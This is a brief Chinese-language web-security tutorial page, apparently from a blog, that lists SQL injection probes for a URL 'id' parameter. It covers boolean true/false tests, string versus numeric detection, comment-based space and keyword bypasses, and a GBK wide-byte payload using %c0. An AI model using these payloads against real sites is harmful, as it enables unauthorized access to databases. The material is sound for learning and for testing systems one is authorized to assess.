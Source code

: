 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)寻找注入点


## ![](../img/github4.png)加单引号
触发异常说明有漏洞
## ![](../img/github5.png)/**/代替空格
## ![](../img/github6.png)?id=1 and 1=1 然后 ?id=1 and 1=2
输入?id=1 and 1=1页面正常

?id=1 and 1=2 出错

则存在数字型注入
## ![](../img/github7.png)?id=1 and 1=2 然后 ？id=1' and '1'='2
输入?id=1 and 1=2页面正常

?id=1' and '1'='2 页面无输出

可以看出，这个是字符型SQL注入，未过滤引号和and

## ![](../img/github8.png)%c0宽字节注入
gbxxxx系列编码或gbk，可尝试宽字节

加单引号没反应的话，加%c0

%c0' or 1=1 limit 2,1%23
## ![](../img/github9.png)?id=1' or '1'='1
## ![](../img/github10.png)?id=1' and 1=1 or''='
## ![](../img/github11.png)?id=1' /\*and\*/ 1=1 or''='
## ![](../img/github12.png)?id=1' /\*!and\*/ 1=1 or''=


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
